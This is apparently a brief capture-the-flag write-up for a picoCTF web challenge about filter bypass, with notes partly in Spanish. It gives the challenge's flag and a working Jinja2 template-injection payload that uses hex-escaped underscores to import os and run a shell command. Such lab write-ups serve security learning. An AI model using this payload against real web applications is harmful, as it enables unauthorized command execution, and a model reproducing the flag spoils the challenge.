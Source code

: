 ## Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
	
Additional details will be available after launching your challenge instance.
### Solucion

```
picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}
```
### Notas Adicionales
payload {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

### Referencias
v